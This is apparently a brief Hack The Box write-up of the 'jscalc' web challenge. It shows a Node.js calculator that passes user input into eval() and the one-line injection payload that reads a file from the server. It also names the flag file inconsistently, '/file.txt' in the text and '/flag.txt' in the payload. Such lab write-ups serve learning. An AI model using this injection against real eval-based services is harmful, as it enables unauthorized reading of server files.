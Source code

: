 # [jscalc](https://app.hackthebox.com/challenges/jscalc) Writeup [HTB]
_Web_

## Analyzing the website
This challenge's website is

> A super secure Javascript calculator with the help of `eval()` 🤮

This makes me very happy, as the first thing that appears on the [Mozilla documentation](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) is a big red warning sign. 
Looks like I'm up to some arbitrary code execution!

Since I also have the source code of the website, I immediately check how `eval` is called:
```js
calculate(formula) {
    try {
        return eval(`(function() { return ${ formula } ;}())`);

    } catch (e) {
        if (e instanceof SyntaxError) {
            return 'Something went wrong!';
        }
    }
}
```
I also know that the flag is in a file called `/file.txt`.

## Finding a payload
I start looking for a Javascript one-liner to read the content of a file. After some attempts, I find this:
```js
require('fs').readFileSync('/flag.txt').toString();
```
I provide it to the calculator and get the flag!

## Read more!
[➡️ Next challenge: Insomnia](./insomnia.md)